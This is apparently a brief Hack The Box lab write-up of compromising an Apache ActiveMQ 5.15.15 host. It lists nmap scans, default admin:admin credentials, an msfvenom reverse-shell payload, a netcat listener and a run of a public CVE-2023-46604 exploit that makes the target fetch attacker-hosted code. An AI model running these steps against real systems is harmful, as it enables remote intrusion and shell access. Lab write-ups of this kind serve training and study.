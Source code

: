 ```
nmap -sS -sC -sV -T5 -Pn 10.10.11.243
nmap -p- -T5 10.10.11.243
```
![image](https://github.com/regarmulia/HTB/assets/33616880/1186881c-78c2-46f8-a554-1ba8d6634117)

![image](https://github.com/regarmulia/HTB/assets/33616880/2611c10e-95d7-41e1-8c74-6fcf7f6f8844)

```
10.10.11.243/
admin:admin
```
![image](https://github.com/regarmulia/HTB/assets/33616880/4bb5ac1e-d62a-46cd-822f-3ac7bee4abc8)

![image](https://github.com/regarmulia/HTB/assets/33616880/cc45491e-7042-4a98-8622-5722631b40a6)

![image](https://github.com/regarmulia/HTB/assets/33616880/67f7a55f-3471-4f52-a062-46c83d247792)

```
activemq broker 5.15.15 exploit
```
![image](https://github.com/regarmulia/HTB/assets/33616880/0c0635b0-741d-46c7-ad00-e4a8c7a45c99)

![image](https://github.com/regarmulia/HTB/assets/33616880/bb33149d-66eb-4c81-904e-8c31d3b0be2c)


```
git clone https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ.git
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.12 LPORT=4444 -f elf -o test.elf
python3 -m http.server 8001
nc -lvvp 4444
go run main.go -i 10.10.11.243 -p 61616 -u http://10.10.14.12:8001/poc-linux.xml
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
![image](https://github.com/regarmulia/HTB/assets/33616880/169c76d4-7ac4-4fae-acd7-42e63f508289)

![image](https://github.com/regarmulia/HTB/assets/33616880/497cfa98-5b46-4748-bb90-3504ed9869d3)

![image](https://github.com/regarmulia/HTB/assets/33616880/b1fd204c-a6df-4c0c-af35-e24df116c0c3)
